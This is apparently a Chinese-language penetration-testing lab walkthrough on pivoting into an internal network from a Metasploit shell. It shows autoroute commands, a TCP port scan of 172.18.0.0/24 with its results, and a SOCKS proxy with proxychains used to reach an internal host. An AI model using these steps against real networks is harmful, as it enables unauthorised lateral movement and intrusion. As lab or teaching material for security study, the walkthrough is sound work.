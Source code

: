 这时候就能拿到一个非常稳定的shell了！存在MSF的窗口！
ifconfig等命令都可以用了！

ifconfig：
IPv4 Address : 172.18.0.2


加路由表：
参考：
https://pingmaoer.github.io/2020/05/09/利用msf自带的route模块穿透目标内网/

1）方法1：
run autoroute -s 172.18.0.0/24
[+] Added route to 172.18.0.0/255.255.255.0 via 192.168.253.182

run autoroute -p
172.18.0.0         255.255.255.0      Session 3


2）方法2：
use post/multi/manage/autoroute
set SUBNET 172.18.0.0
set session 3
exploit


172.18.0段做端口扫描：
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.18.0.0/24
set session 3
exploit

扫描结果：
[+] 172.18.0.1:           - 172.18.0.1:22 - TCP OPEN
[+] 172.18.0.1:           - 172.18.0.1:8000 - TCP OPEN
[+] 172.18.0.2:           - 172.18.0.2:80 - TCP OPEN
[+] 172.18.0.3:           - 172.18.0.3:22 - TCP OPEN
[+] 172.18.0.3:           - 172.18.0.3:8022 - TCP OPEN
[+] 172.18.0.4:           - 172.18.0.4:3306 - TCP OPEN


开启socks4a proxy代理：
use auxiliary/server/socks_proxy
set SRVPORT 1090
set session 2


或者：
use post/multi/manage/shell_to_meterpreter   ---不需要设置，默认1080端口


gedit /etc/proxychains4.conf
socks4 127.0.0.1 1090

测试：
proxychains ssh 172.18.0.4


==============================================================
方法3：reGeorg代理之路！
